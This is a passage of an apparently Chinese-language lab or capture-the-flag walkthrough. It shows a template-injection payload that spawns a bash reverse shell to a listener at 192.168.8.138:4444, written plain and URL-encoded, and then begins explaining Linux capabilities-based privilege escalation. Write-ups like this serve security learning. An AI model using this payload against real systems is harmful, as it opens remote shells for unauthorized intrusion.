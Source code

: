 反弹shell

 首先在kali上监听端口，并将python反弹shell语句使用encodeURIComponent进行编码

```plain
编码前：{% import os %}{{os.system('bash -c "bash -i >& /dev/tcp/192.168.8.138/4444 0>&1"')}}
 
编码后：%7B%25%20import%20os%20%25%7D%7B%7Bos.system('bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.8.138%2F4444%200%3E%261%22')%7D%7D
```

![img](assets/1695386516952-1d883f6f-5ff5-4231-a201-da4cb52a5d06.png)成功进入系统，拿到普通shell

# 0x03权限提升

## Capabilitie提权

[python Capabilities cap_sys_ptrace+ep提权 - 隐念笎 - 博客园](https://www.cnblogs.com/zlgxzswjy/p/15185591.html)

[Linux提权之：利用capabilities提权 - f_carey - 博客园](https://www.cnblogs.com/f-carey/p/16026088.html)

Capabilities机制是在Linux内核2.2之后引入的，原理很简单，就是将之前与超级用户root（UID=0）关联的特权细分为不同的功能组，Capabilites作为线程（Linux并不真正区分进程和线程）的属性存在，每个功能组都可以独立启用和禁用。其本质上就是将内核调用分门别类，具有相似功能的内核调用被分到同一组中。 这样一来，权限检查的过程就变成了：在执行特权操作时，如果线程的有效身份不是root，就去检查其是否具有该特权操作所对应的capabilities，并以此为依据，决定是否可以执行特权操作。 如果Capabilities设置不正确，就会让攻击者有机可乘，实现权限提升。

![img](assets/1695389392259-3df99414-51ed-4f1c-a1f3-9839c63b3e5a.png)
